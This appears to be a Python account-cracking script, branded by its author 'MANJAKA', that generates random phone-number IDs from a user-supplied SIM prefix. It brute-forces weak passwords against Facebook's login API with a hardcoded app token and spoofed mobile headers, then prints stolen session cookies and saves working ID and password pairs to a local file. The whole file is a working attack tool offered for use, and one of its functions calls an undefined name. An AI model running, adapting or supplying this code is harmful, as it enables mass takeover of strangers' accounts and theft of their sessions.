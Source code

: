 #WRITTEN BY MANJAKa
#FOLLOW : https://github.com/MANJAKA-305
#------------- import -------------#
import os
from os import system as clr
import random
import string 
from concurrent.futures import ThreadPoolExecutor as tred
import requests
import re
import sys
import uuid
import json
#-------------color----------------#
bblack="\033[1;30m"         # Black
M="\033[1;31m"            # Red
H="\033[1;32m"         # Green
byellow="\033[1;33m"        # Yellow
bblue="\033[1;34m"          # Blue
P="\033[1;35m"        # Purple
C="\033[1;36m"          # Cyan
B="\033[1;37m"         # White
my_color = [
 B,C,P,H]
warna = random.choice(my_color)
oks=[]
cps=[]
loop=0
#-------------logo-----------------#
logo=(f'''{B}
`7MM"""Mq. MMP""MM""YMM `7MMM.     ,MMF'
{warna}  MM   `MM.P'   MM   `7   MMMb    dPMM  
{B}  MM   ,M9      MM        M YM   ,M MM  
{warna}  MMmmdM9       MM        M  Mb  M' MM
 {B} MM  YM.       MM        M  YM.P'  MM  
{warna}  MM   `Mb.     MM        M  `YM'   MM  
{B}.JMML. .JMM.  .JMML.    .JML. `'  .JMML.
{warna}--------------------------------------------{B}
 Owner    : {C}MANJAKA{B}
 Guthub   : MANJAKA-305
 Facebook : ʚʬɞ Manjaka Rodry ʚʬɞ 
 Tools    : R{C}/{B}T{C}/{B}M{M} •{warna}[{H}TRAIL{warna}]{warna}
--------------------------------------------{B}''')
#-------------linex def -------------#
def linex():
    print(f'{warna}--------------------------------------------{B}')
#-------------clear def -------------#
def clear():
    clr('clear')
    print(logo)
#-------------main def------------#
def MANJAKA():
    clear()
    os.system('xdg-open https://github.com/MANJAKA-305')
    print(f'{B} [{warna}01{B}] RANDOM CLONING ')
    print(f'{B} [{warna}00{B}] EXIT  ')
    linex()
    option=input(f' {B}[{warna}??{B}] CHOICE MENU >> ')
    if option in ['01','1']:
        BD_CLONING()
    else:
        exit(' Thanks for using dear :)')
#------------- bd clone def ----------#
def BD_CLONING():
    user=[]
    clear()
    print(' EXAMPLE SIM CODE : [] [011] [012] [013]')
    code=input(' ENTER SIM CODE >> ')
    linex()
    print(' EXAMPLE LIMIT : [1000] [2000] [5000] [10000] [50000]')
    try:
        limit=int(input(' ENTER LIMIT >> '))
    except ValueError:
        limit=50000
    clear()
    for nmbr in range(limit):
        nmp=''.join(random.choice(string.digits) for _ in range(8))
        user.append(nmp)
    with tred(max_workers=30) as Dipto:
        tl=str(len(user))
        print(' TOTAL ACCOUNT : '+tl)
        print(' YOUR SIM CODE : '+code)
        print(' PROGRESS HAS BEEN RUNNING PLEASE WAIT ')
        linex()
        for psx in user:
            ids=code+psx
            passlist=[psx,ids,ids[:7],ids[:6],ids[5:],ids[4:],'sadiya','jannat']
            Dipto.submit(method_crack,ids,passlist)
    linex()
    print(' THE PROGRESS HAS BEEN COMPLETE ')
    print(' TOTAL OK ID '+str(len(oks)))
    print(' TOTAL CP ID '+str(len(cps)))
    input(' PRESS ENTER TO BACK  : ')
    MR_DIPTO()
#------------ method crack def ---------#
def method_crack(ids,passlist):
    global oks
    global cps
    global loop
    try:
        for pas in passlist:
            sys.stdout.write('\r\r \033[1;37m[Progress] %s|\033[1;32mSucces:%s'%(loop,len(oks)))
            sys.stdout.flush()
            adid=str(uuid.uuid4())
            device_id=str(uuid.uuid4())
            datax={'adid': adid, 'format': 'json', 'device_id': device_id, 'email': ids, 'password': pas, 'generate_analytics_claims': '1', 'credentials_type': 'password', 'source': 'login', 'error_detail_type': 'button_with_disabled', 'enroll_misauth': 'false', 'generate_session_cookies': '1', 'generate_machine_id': '1', 'meta_inf_fbmeta': '', 'currently_logged_in_userid': '0', 'fb_api_req_friendly_name': 'authenticate'}
            header={'User-Agent': '[FBAN/FB4A;FBAV/368.0.0.24.108;FBBV/371897983;FBDM/{density=1.0,width=600,height=976};FBLC/en_US;FBCR/null;FBMF/JTYjay;FBBD/D101;FBPN/com.facebook.katana;FBDV/D101;FBSV/4.4.2;nullFBCA/armeabi-v7a:armeabi;]', 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'Connection': 'keep-alive', 'Authorization': 'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32', 'X-FB-Friendly-Name': 'authenticate', 'X-FB-Connection-Bandwidth': '21435', 'X-FB-Net-HNI': '35793', 'X-FB-SIM-HNI': '37855', 'X-FB-Connection-Type': 'unknown', 'Content-Type': 'application/x-www-form-urlencoded', 'X-FB-HTTP-Engine': 'Liger'}
            url='https://api.facebook.com/method/auth.login'
            reqx=requests.post(url,data=datax,headers=header).json()
            if 'session_key' in reqx:
                try:
                    uid=reqx['uid']
                except:
                    uid=ids
                if str(uid) in oks:
                    break
                else:
                    print('\r\r \033[1;32m[MADA-OK] '+str(uid)+' | '+pas+'\033[1;37m')
                    coki=";".join(i["name"]+"="+i["value"] for i in reqx["session_cookies"])
                    print('\033[1;32m [COOKIES] '+coki)
                    open('/sdcard/manjaka.txt','a').write(str(uid)+' | '+pas+'\n')
                    oks.append(str(uid))
                    break
            elif 'www.facebook.com' in reqx['error_msg']:
                print('\r\r \033[1;30m[MADA-CP] '+ids+' | '+pas+'\033[1;37m')
                open('/sdcard/manjaka.txt','a').write(ids+'|'+pas+'\n')
                cps.append(ids)
                break
            else:
                continue
        loop+=1
    except:
        pass
#-------------end----------------#
MANJAKA()
